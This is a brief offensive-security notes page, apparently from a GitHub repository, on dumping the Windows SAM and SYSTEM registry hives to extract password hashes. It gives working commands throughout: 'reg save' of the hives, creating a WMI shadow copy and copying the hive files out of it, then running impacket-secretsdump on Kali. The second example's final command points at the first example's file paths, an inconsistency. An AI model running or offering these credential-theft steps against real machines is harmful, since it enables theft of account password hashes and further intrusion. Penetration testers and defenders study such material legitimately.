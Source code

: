 ## Dumping SAM and SYSTEM 

Simple enough, we can't dump it usually as it's constantly locked, even if we're a system user. However, we can make a copy of it and then move that over to Kali to decrypy with various tools, including secretsdump.

```powershell
reg save HKLM\sam C:\users\neo\downloads\sam2
reg save HKLM\system C:\users\neo\downloads\system2
# Copy to Kali
impacket-secretsdump -sam /opt/sam2 -system /opt/system2 LOCAL
```

Alternatively, we can use wmi to create a shadow copy.

```powershell
wmic shadowcopy call create Volume='C:\'

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\sam C:\users\neo\Downloads\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\system C:\users\neo\Downloads\system

# Copy to Kali
impacket-secretsdump -sam /opt/sam2 -system /opt/system2 LOCAL
```